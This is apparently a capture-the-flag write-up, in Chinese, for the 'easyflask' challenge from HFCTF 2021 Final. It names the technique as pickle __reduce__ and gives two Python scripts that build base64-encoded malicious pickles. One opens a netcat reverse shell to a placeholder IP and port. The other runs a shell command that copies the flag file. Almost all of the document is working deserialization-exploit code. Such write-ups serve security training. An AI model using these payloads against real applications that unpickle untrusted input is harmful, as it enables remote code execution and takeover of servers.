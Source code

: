 # [HFCTF 2021 Final]easyflask

## 知识点

`pickle __reduce__`

## 解题

```python
import pickle
from base64 import b64encode

User = type('User', (object,), {
    'uname': 'test',
    'is_admin': 1,
    '__repr__': lambda o: o.uname,
    '__reduce__': lambda o: (eval, ("__import__('os').system('nc IP PORT -e /bin/sh')",))

})

u = pickle.dumps(User())
print(b64encode(u).decode())
```

或者

```python
import pickle
from base64 import b64encode

class User(object):
    def __reduce__(self):
        import os
        cmd = "cat /flag > /tmp/test1"
        return (os.system, (cmd,))


u = pickle.dumps(User())
print(b64encode(u).decode())
```

